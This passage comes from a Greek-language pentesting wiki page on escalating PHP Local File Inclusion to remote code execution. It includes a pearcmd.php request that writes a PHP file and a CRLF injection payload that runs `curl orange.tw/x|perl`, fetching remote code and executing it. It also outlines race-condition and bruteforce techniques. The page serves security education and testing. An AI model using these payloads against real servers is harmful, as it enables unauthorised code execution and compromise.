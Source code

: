 Η παρακάτω αίτηση δημιουργεί ένα αρχείο στο `/tmp/hello.php` με το περιεχόμενο `<?=phpinfo()?>`:

{% code overflow="wrap" %}
```bash
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
```
{% endcode %}

Η παρακάτω εκμεταλλεύεται μια ευπάθεια CRLF για να αποκτήσει RCE (από [**εδώ**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)):
```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```
### Μέσω phpinfo() (file\_uploads = on)

Αν βρείτε μια **Local File Inclusion** και ένα αρχείο που εκθέτει **phpinfo()** με file\_uploads = on μπορείτε να αποκτήσετε RCE:

{% content-ref url="lfi2rce-via-phpinfo.md" %}
[lfi2rce-via-phpinfo.md](lfi2rce-via-phpinfo.md)
{% endcontent-ref %}

### Μέσω compress.zlib + `PHP_STREAM_PREFER_STUDIO` + Path Disclosure

Αν βρείτε μια **Local File Inclusion** και μπορείτε να **εξάγετε τη διαδρομή** του προσωρινού αρχείου ΑΛΛΑ ο **διακομιστής** **ελέγχει** αν το **αρχείο που θα συμπεριληφθεί έχει PHP marks**, μπορείτε να προσπαθήσετε να **παρακάμψετε αυτόν τον έλεγχο** με αυτή τη **Race Condition**:

{% content-ref url="lfi2rce-via-compress.zlib-+-php_stream_prefer_studio-+-path-disclosure.md" %}
[lfi2rce-via-compress.zlib-+-php\_stream\_prefer\_studio-+-path-disclosure.md](lfi2rce-via-compress.zlib-+-php\_stream\_prefer\_studio-+-path-disclosure.md)
{% endcontent-ref %}

### Μέσω αιώνιας αναμονής + bruteforce

Αν μπορείτε να εκμεταλλευτείτε την LFI για να **ανεβάσετε προσωρινά αρχεία** και να κάνετε τον διακομιστή να **κολλήσει** την εκτέλεση PHP, τότε θα μπορούσατε να **δοκιμάσετε να βρείτε ονόματα αρχείων για ώρες** για να βρείτε το προσωρινό αρχείο:

{% content-ref url="lfi2rce-via-eternal-waiting.md" %}
[lfi2rce-via-eternal-waiting.md](lfi2rce-via-eternal-waiting.md)
{% endcontent-ref %}

### Σε Fatal Error

Αν συμπεριλάβετε οποιοδήποτε από τα αρχεία `/usr/bin/phar`, `/usr/bin/phar7`, `/usr/bin/phar.phar7`, `/usr/bin/phar.phar`. (Πρέπει να συμπεριλάβετε το ίδιο δύο φορές για να προκαλέσετε αυτό το σφάλμα).

**Δεν ξέρω πόσο χρήσιμο είναι αυτό αλλά μπορεί να είναι.**\
_Ακόμα και αν προκαλέσετε ένα PHP Fatal Error, τα προσωρινά αρχεία PHP που έχουν ανέβει διαγράφονται._
